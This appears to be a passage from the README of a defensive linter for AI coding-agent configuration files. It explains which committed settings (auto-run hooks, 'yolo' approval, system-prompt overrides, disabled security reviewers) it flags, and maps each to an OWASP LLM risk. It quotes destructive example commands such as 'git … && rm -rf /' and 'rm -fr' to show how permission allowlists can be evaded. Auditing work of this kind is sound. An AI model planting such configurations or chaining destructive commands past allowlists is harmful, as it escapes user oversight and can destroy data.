**A committed `.claude/` or `.cursor/` directory is also a Grok execution surface.** Grok's `[compat.claude]`/`[compat.cursor]` settings default to on, so out of the box it executes hooks from `.claude/settings.json`/`.cursor/hooks.json` and loads MCP servers from `.claude.json`/`.cursor/mcp.json`/`.mcp.json`. The rules cfgaudit already applies to those files therefore protect Grok users too.

Grok's `.grok/agents/*.md` `permissionMode` frontmatter (CFG085) and its `SessionStart` zero-click hooks (CFG086) are flagged like the Claude/Cursor/Copilot equivalents. `.grok/config.toml` `[permission] allow` rules are **not** flagged: tracing the Grok source showed they are folder-trust gated (an untrusted clone contributes none), they merge across scopes with `deny > ask > allow` so a user's `deny` always wins over a repo `allow`, and `allow` matching is segmented (a `Bash(git *)` rule cannot auto-approve a chained `git … && rm -rf /`) — so the committed-permission threat is far weaker than a config linter can meaningfully flag. `.grok/sandbox.toml` is deliberately not modelled either: it is additive-only and the user wins name collisions, so a repo cannot weaken a user's sandbox profile.

`.grok/config.toml` `[plugins]` **is** flagged ([CFG100](docs/rules/CFG100.md)), and the reason is worth stating beside the two declines above, because all three tables sit behind the same folder-trust gate. Trust is one prompt covering everything the repository declares, granted to get any functionality at all, not consent to a specific plugin — so it caps the blast radius, which is why every CFG100 finding is `warn`, and it is not a reason for silence. cfgaudit already reports `[mcp_servers]` from this same file under this same gate; reporting one and not the other would give the file two different answers to one question. `[permission]` stays declined for a reason folder trust has nothing to do with: the merge order and the segmented matching described above.

### qwen-code — `.qwen/` & `QWEN.md`

[qwen-code](https://github.com/QwenLM/qwen-code) (Alibaba) is a diverged Gemini CLI fork with its config under `.qwen/`. cfgaudit scans the committable surfaces that ride existing rules today:

- **`.qwen/settings.json`** `mcpServers` ride the shared MCP rules (CFG010–CFG021, CFG049–CFG059), attributed to the settings file. `httpUrl` (qwen's streamable-HTTP endpoint) is folded into the URL the remote-transport rules read.
- **`.qwen/settings.json`** `hooks` (the nested `hooks.<Event>[].hooks[].command` shape) are scanned: every `command` handler rides the command-content rules (CFG008/009/014/015/…), and a `SessionStart` **or `InstructionsLoaded`** hook — qwen's two zero-click events (`InstructionsLoaded` fires while `QWEN.md`/context loads at session start) — is flagged by [CFG086](docs/rules/CFG086.md). The top-level `disableAllHooks: true` kill switch is honoured, `http` handlers (a url, no shell) are skipped, and event names match exact PascalCase.
- **`QWEN.md`** (qwen's project instruction file; `~/.qwen/QWEN.md` with `--user`) and **`.qwen/agents/*.md`**, **`.qwen/commands/*.md`**, **`.qwen/skills/*/SKILL.md`** are scanned as instruction content (CFG024–CFG036, CFG057, CFG080/CFG081). qwen also reads `AGENTS.md`, which cfgaudit already scans. `.qwen/agents/*.md` frontmatter has **no** native permission field, so CFG085 is deliberately not extended there.

**The severity backdrop that sets qwen apart:** it ships **folder trust disabled by default** (`security.folderTrust.enabled` defaults to `false`), so a committed `.qwen/settings.json` is applied with **no trust prompt** — the inverse of Cursor/Codex/Grok, which gate project config on trust. Two qwen-specific rules build on that:

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG091](docs/rules/CFG091.md) | error | qwen `tools.approvalMode` is `"yolo"` — auto-approves every tool call incl. shell with no prompt, and folder trust is off by default so a committed file applies unprompted | LLM06 |
| [CFG099](docs/rules/CFG099.md) | error/warn | qwen settings pick the agent's infrastructure — a non-loopback `proxy` (measured: carries the model traffic and its credential header, CFG021's threat model for the whole CLI), `tools.sandboxImage` (error with `tools.sandbox` on in the same file, otherwise warn as latent), or `memory.enableAutoSkill: true` **with** `memory.autoSkillConfirm: false` (note the inverted default: auto-generated skills reach the skill library unconfirmed). `tools.autoAccept` is **not** flagged: it is vestigial, with no consumer in the shipped bundle | LLM02, LLM06 |
| [CFG100](docs/rules/CFG100.md) | warn | Grok `.grok/config.toml` `[plugins]` turns plugins on or widens where they load from — `paths` naming a directory inside the repo (it ships the plugin code and points the loader at it), `paths` outside it, or `enabled` (project plugins default to **off**, so a committed entry switches them on). `disabled` is **not** flagged: narrowing is hardening. Warn throughout because Grok gates repo plugins behind folder trust, the same gate the already-reported `[mcp_servers]` sits behind | LLM03 |
| [CFG101](docs/rules/CFG101.md) | warn | a `deny`/`ask` entry constrains **bundled short flags** (`Bash(rm -rf *)`), which literal-prefix matching walks past — `rm -fr` reaches the same command. Long flags, lone short flags, single-dash long options (`find -name`), subcommands and PowerShell are **not** flagged, and neither is an entry beside a bare `Bash(rm *)` that already closes the gap | LLM06 |
| [CFG102](docs/rules/CFG102.md) | warn | two committed `SKILL.md` files under one skills root declare the same frontmatter `name` — measured on Copilot CLI 1.0.80, only the alphabetically first directory loads and the other is dropped with no warning and under no other name. A skill's name comes from its frontmatter, so nothing in the tree shows which copy is dead | LLM03 |
| [CFG103](docs/rules/CFG103.md) | error | committed Codex `[features.guardianv2]` switches off, raises the `review_threshold` of, or replaces the `classifier_instructions` of Codex's own security reviewer — verified at the artifact: a project config's values reach the effective config in a trusted directory, and `features` is not on Codex's project-layer denylist | LLM06 |

Only `"yolo"` is flagged: `"auto"` is qwen's shipped default (classifier-gated shell, not a committed escalation), `"auto-edit"` is stricter than that default, and `tools.autoAccept` is vestigial (no consumer in the approval path).

qwen's `permissions.allow` is **not** flagged, for the same reason as Grok's `[permission] allow` above: evaluation is `deny > ask > allow`, so a user's `deny` beats a repo's `allow`, and `allow` matching is **segmented** rather than a prefix match — `splitCompoundCommand` breaks a chained command into segments and matches each on its own, and `matchesCommandPattern` requires a full match or a space boundary, so a `Bash(git *)` rule cannot auto-approve `git status && rm -rf /`. This is the Grok case, not the prefix-matching Cursor `terminalAllowlist` case that CFG093 exists for.

Also not flagged: `security.allowPrivateNetworkHooks` and `security.allowedInsecureVoiceBaseUrls` are documented *"Only honored from User, System, and SystemDefaults settings scopes"* — a workspace value is ignored, the second saying outright that this is *"so a cloned repository cannot self-grant this bypass"*.

Two further surfaces were scoped and, after source verification, deliberately **not** ruled — neither fires from a scanned repo without a manual step, so a rule would report a trigger that does not exist:

- **`.qwen/sandbox.Dockerfile`** is inert for normally-installed users. qwen builds it only from a cloned qwen-code source tree with the `BUILD_SANDBOX` env var set (an npm-installed binary hits an explicit `throw`), on top of needing the sandbox enabled and docker/podman present — none of which a committed file can express.
- **Marketplace/extension install** and **Claude-config MCP import** are user-command-driven (`/extensions`, `/import-config`), never auto-loaded from committed config. There is no `enabledPlugins`/`extraKnownMarketplaces` equivalent in `.qwen/settings.json`. The `<repo>/.claude/settings.json` that `/import-config --scope project` would pull is already covered by cfgaudit's Claude/MCP rules.

### Kimi Code — `.kimi-code/` & `.agents/agents/`

[Kimi Code](https://github.com/MoonshotAI/kimi-code) (Moonshot) loads project agent definitions from `.kimi-code/agents/` and `.agents/agents/` (resolved from the repo's `.git` root, recursive, **no trust gate**). Their bodies ride the instruction-content rules; one Kimi-specific rule covers the frontmatter:

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG092](docs/rules/CFG092.md) | error | a committed agent file sets `override: true` — its body *replaces the built-in agent's entire system prompt* (naming it `agent.md` takes over the main agent), and with no `tools` list keeps every tool | LLM01 |

`.kimi-code/mcp.json` rides the shared MCP rules, scanned as its own attributed target — it is a project-local tier that **overrides** the repo-root `.mcp.json` (Kimi merges it last) and whose stdio entries execute at session start, so scanning it separately keeps an override of a benign root declaration visible.

**Surfaces Kimi shares with agents cfgaudit already covers** (no new rules — the existing findings reach Kimi):

- The **repo-root `.mcp.json`** (see the MCP section above) — read by Kimi Code CLI, stdio entries executed at session start.
- **`.claude/skills/*/SKILL.md`** — read by the **deprecated** predecessor `MoonshotAI/kimi-cli` (brand order `.kimi/skills` > `.claude/skills` > `.codex/skills`, all merged), which cfgaudit already scans. Kimi Code itself **refuted** this cross-read (its `skillRoots.ts` lists only its own paths), so the `.claude/skills` reach is a property of the winding-down `kimi-cli`, not the current product.

**No trust gate — Kimi is qwen-shaped, not Cursor/Codex/Grok-shaped.** A zero-hit source search across both Kimi repos found no workspace/folder-trust mechanism; the posture is documentation-only ("Only use it in working directories you trust"). Unlike Cursor (workspace trust), Codex (project-layer denylist when untrusted), and Grok (folder trust) — whose gating softens the equivalent findings — a cloned Kimi repo's agent files and MCP config take effect on first session with nothing to grant. Any severity reasoning that leans on a trust gate (CFG086's caveat) does not apply here.

**Verified negatives** (checked against source, deliberately no rule): Kimi's `config.toml` is user-scope only, so its `[[hooks]]`/`[[permission.rules]]` (incl. `SessionStart`) **cannot** be planted by a repo; kimi-code has no sandbox concept; there is no `KIMI.md`; plugins support SHA pinning and third-party install defaults to cancel.

---

## OWASP mapping

cfgaudit is a **static auditor of AI-agent configuration files** (Claude Code first-class, with portable rules extended to other agents). It maps each finding to an [OWASP Top 10 for LLM Applications 2025](https://owasp.org/www-project-top-10-for-large-language-model-applications/) risk — but by design it only sees what is *declared in config*, not model behaviour, runtime traffic, or training data. That scope determines which risks it can and cannot address.

**Covered**

| ID | Risk | Example rules |
|----|------|---------------|
| LLM01 | [Prompt Injection](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM01_2025-Prompt_Injection.html) | CFG009, CFG015, CFG024, CFG026, CFG030, CFG032, CFG034, CFG056, CFG057, CFG080, CFG081, CFG092 |
| LLM02 | [Sensitive Information Disclosure](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM02_2025-Sensitive_Information_Disclosure.html) | CFG005, CFG007, CFG012, CFG013, CFG016, CFG021, CFG031, CFG033, CFG036, CFG037, CFG038, CFG041, CFG042, CFG043, CFG044, CFG046, CFG049, CFG050, CFG054, CFG072, CFG073, CFG075, CFG078, CFG088, CFG099 |
| LLM03 | [Supply Chain Vulnerabilities](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM03_2025-Supply_Chain.html) | CFG010, CFG014, CFG052, CFG055, CFG074, CFG086, CFG089, CFG098, CFG100, CFG102 |
| LLM06 | [Excessive Agency](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM06_2025-Excessive_Agency.html) | CFG001–CFG004, CFG006, CFG008, CFG011, CFG017–CFG020, CFG022, CFG023, CFG025, CFG027, CFG028, CFG029, CFG035, CFG039, CFG040, CFG045, CFG047, CFG048, CFG051, CFG053, CFG076, CFG077, CFG079, CFG087, CFG090, CFG091, CFG099, CFG101, CFG103 |

**Not covered**

| ID | Risk | Why it is out of scope |
|----|------|------------------------|
| LLM04 | [Data and Model Poisoning](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM04_2025-Data_and_Model_Poisoning.html) | Concerns training data and model weights. cfgaudit audits config files, not models or training pipelines. |
| LLM05 | [Improper Output Handling](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM05_2025-Improper_Output_Handling.html) | A runtime property of how downstream systems consume model output — not visible in static configuration. |
| LLM07 | [System Prompt Leakage](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM07_2025-System_Prompt_Leakage.html) | A runtime property of what the model reveals at inference time, not something declared in config. Where config *can* contribute — secrets embedded in `CLAUDE.md` or `settings.json` — that exposure is already covered under LLM02 (e.g. CFG013, CFG031). |
| LLM08 | [Vector and Embedding Weaknesses](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM08_2025-Vector_and_Embedding_Weaknesses.html) | Specific to RAG / embedding stores, which Claude Code configuration does not describe. |
| LLM09 | [Misinformation](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM09_2025-Misinformation.html) | A model-output-quality concern, not a configuration setting. |
| LLM10 | [Unbounded Consumption](https://owasp.org/www-project-top-10-for-large-language-model-applications/2025/LLM10_2025-Unbounded_Consumption.html) | Runtime resource / cost / DoS behaviour, not expressed in the config cfgaudit reads. |

---

## Test fixtures

Real-world `settings.json` examples live under `testdata/settings/`:

- `valid/` — configurations that must produce **zero** cfgaudit findings (minimal, fully-populated, team, managed-org).
- `invalid/` — one fixture per rule, named `CFG###_<slug>.json`. Each must trigger the rule encoded in its prefix.

`rules/fixtures_test.go` enforces both invariants on every Go test run, so fixtures and rule implementations stay in lockstep.

A separate workflow (`.github/workflows/schema-validation.yml`) validates every file in `valid/` against the [SchemaStore Claude Code settings schema](https://json.schemastore.org/claude-code-settings.json) on push, on pull request, and nightly. If the upstream schema changes, the nightly run opens (or comments on) a tracking issue so the fixtures and rules can be brought back in sync before silent breakage.

---

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md) for dev setup, the test loop, and the step-by-step recipe for adding a new rule.

---

## License

Apache 2.0 — see [LICENSE](LICENSE).
